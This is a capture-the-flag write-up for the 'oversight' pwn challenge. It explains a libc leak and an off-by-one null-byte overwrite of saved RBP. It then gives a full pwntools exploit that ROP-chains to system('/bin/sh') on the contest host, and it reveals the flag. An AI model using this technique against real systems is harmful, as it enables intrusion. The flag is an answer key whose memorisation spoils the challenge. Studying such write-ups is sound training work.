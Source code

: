# oversight

## Challenge

A stack leak and an echo program with a limited input length.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

Using the leak at the start of the program, we can leak a single value from the stack.
We can use this to leak `libc_start_main_return` and find the base address of libc.

The executable always ensures that the string is null terminated by appending a null byte.

The size of the buffer is 0x100 bytes, and we are allowed to send 0x100 bytes, so if we send the max amount of characters, the null byte will be appended outside of the buffer.
This will overwrite the least significant byte of the base address.

The program returns multiple times after reading this, so on the second return, RIP will be popped from the overwritten RBP+8.

The exact location of this new RIP on the stack will depend on environment variables, but we can increase the likelyhood of landing on our ROP chain by filling the buffer with `ret` gadgets, with our main payload at the end.

If the RIP is popped from anywhere in the buffer, it will return until it reaches our ROP chain which spawns a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host pwn-2021.duc.tf --port 31909 oversight
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('oversight')
libc = ELF('libc-2.27.so')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'pwn-2021.duc.tf'
port = int(args.PORT or 31909)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.sendlineafter(b"Press enter to continue\n", b"")

io.sendlineafter(b"Pick a number: ", b"27")

io.recvuntil(b"Your magic number is: ")

leak = io.recvuntil(b"\n", drop=True)

libc.address = int(leak, 16) - libc.libc_start_main_return

io.success(hex(libc.address))

io.sendlineafter(b"How many bytes do you want to read (max 256)? ", b"256")

rop = ROP(libc)

payload = flat({
    0xe0: [
        rop.find_gadget(['pop rdi', 'ret'])[0],
        next(libc.search(b'/bin/sh\x00')),
        libc.sym['system'],
        ]
    }, filler = pack(rop.find_gadget(['ret'])[0]), length = 0x100)

io.send(payload)

io.recvline()
io.recv(6)

io.interactive()
```

## Flag

`DUCTF{1_sm@LL_0ver5ight=0v3rFLOW}`

